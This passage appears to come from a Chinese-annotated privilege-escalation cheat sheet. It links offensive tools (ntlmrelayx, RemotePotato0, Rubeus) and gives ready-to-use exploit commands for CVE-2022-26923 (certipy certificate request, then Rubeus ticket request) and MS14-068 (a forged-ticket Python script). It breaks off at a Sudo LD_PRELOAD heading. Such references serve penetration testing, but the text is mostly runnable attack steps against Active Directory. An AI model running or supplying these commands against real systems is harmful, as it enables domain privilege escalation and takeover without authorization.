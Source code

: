 
批注：

ntlmrelayx.py只找到个很相似的：[https://github.com/LuemmelSec/ntlmrelayx.py\_to\_exe](https://link.zhihu.com/?target=https%3A//github.com/LuemmelSec/ntlmrelayx.py_to_exe)

remotepotato：[https://github.com/antonioCoco/RemotePotato0/releases/tag/1.2](https://link.zhihu.com/?target=https%3A//github.com/antonioCoco/RemotePotato0/releases/tag/1.2)

### **CVE-2022-26923**

域名: Y/N

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.  `certipy req ‘lab.local/cve$:CVEPassword1234*@10.100.10.13’ -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA`
2.  `Rubeus.exe asktgt /user:"目标_sam名称" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_域名" /dc:"域名_CONTROLLER" /show`

  

批注：

rubeus：[https://github.com/GhostPack/Rubeus](https://link.zhihu.com/?target=https%3A//github.com/GhostPack/Rubeus)

### **MS14-068**

域名: Y/N

Local Admin: Yes

操作系统: Windows

类型: 0/1 Exploit

方法:

1.  `python ms14-068.py -u user-a-1@dom-a.loc -s S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc`

  

批注：

无py版本，exe版本：[https://github.com/ianxtianxt/MS14-068](https://link.zhihu.com/?target=https%3A//github.com/ianxtianxt/MS14-068)

### **Sudo LD\_PRELOAD**

域：No

Local Admin: Yes

操作系统: Linux
